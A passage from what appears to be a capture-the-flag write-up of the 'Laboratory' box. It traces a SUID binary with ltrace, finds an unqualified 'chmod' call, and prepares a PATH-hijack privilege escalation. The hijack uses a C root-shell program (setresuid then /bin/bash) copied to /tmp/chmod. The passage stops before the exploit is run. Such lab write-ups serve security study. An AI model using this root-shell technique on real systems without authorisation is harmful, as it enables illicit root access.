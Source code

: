 ### docker-security

I could pull this binary back and reverse it in Ghidra, but given this
is an easy-rated box, I'll start with `ltrace` (which fortunately is
installed on this box):



    dexter@laboratory:~$ ltrace docker-security 
    setuid(0)                                                                               = -1
    setgid(0)                                                                               = -1
    system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                   = 256
    system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                   = 256
    +++ exited (status 0) +++



The binary is calling `system("chmod ...")`. The important part here is
that it isn't using the full path to `chmod`. That is something I can
exploit.

### Shell

I don't see any tools to compile a binary on Laboratory, so I'll work on
my VM. I'll use this snippet of C code:



    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>

    int main(void) {
        setresuid(0, 0, 0);
        system("/bin/bash");
    }



It simply sets the process privs to root, and then calls `bash`. I don't
actually need the `setresuid` call, as `docker-security` actually calls
`setuid(0)` and `setgid(0)` before calling `chmod`. This is just handy
template I have around for cases like this, and many times a process
will actually lower it's privileges before making a risky call (and the
`setresuid` fixes that for me).

I'll compile this and copy it to Laboratory with `scp`:



    oxdf@parrot$ gcc suid.c -o suid
    oxdf@parrot$ scp -i ~/keys/laboratory_dexter suid dexter@10.10.10.216:/tmp/chmod
    suid                                          100%   16KB 399.5KB/s   00:00

